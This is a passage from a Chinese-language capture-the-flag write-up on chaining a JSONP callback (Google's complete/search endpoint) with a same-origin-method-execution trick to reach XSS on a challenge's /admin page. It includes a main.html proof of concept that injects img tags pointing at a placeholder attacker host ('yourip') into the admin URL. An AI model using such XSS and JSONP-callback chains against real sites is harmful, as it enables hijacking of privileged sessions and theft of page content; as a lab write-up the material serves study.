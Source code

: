 這就是我們缺少的最後一塊拼圖，我們找不到可以控制參數內容的 JSONP Endpoint，雖然 `www.google.com/uds/GwebSearch?callback=alert&context=1` 的 context 可以控制，但它幾乎只接受英數字的字元，後續夥伴們因為有事就各自去忙碌了，也就沒繼續挑戰。

賽後我們參考了此篇 Writeup: [https://corb3nik.github.io/blog/ins-hack-2019/bypasses-everywhere](https://corb3nik.github.io/blog/ins-hack-2019/bypasses-everywhere)

這篇文章用到的 JSONP Endpoint 是 `https://www.google.com/complete/search?client=chrome&q=hello&callback=alert`，也是我們缺少的拼圖，參數 q 就是 callback 的參數，並且接受任何字元，唯一限制是 q 長度不能過長。
![](bypasses-everywhere_08.png)

有了這個，就能結合先前的 SOME PoC 成功串出 `/admin` 上的 XSS。我們先 dump 出 `/admin` 的完整 document 內容。同樣的，中間插入了一些 img 標籤是為了延遲渲染的時間。

main.html
```
<body>
<script>
    window.open("step1.html");
    window.location = "http://127.0.0.1:8080/admin?picture=%22%3E<img%20src=%22http://yourip/2000.jpg%22><img%20src=%22http://yourip/3000.jpg%22><img%20src=%22http://yourip/4000.jpg%22>";
</script>
</body>
```
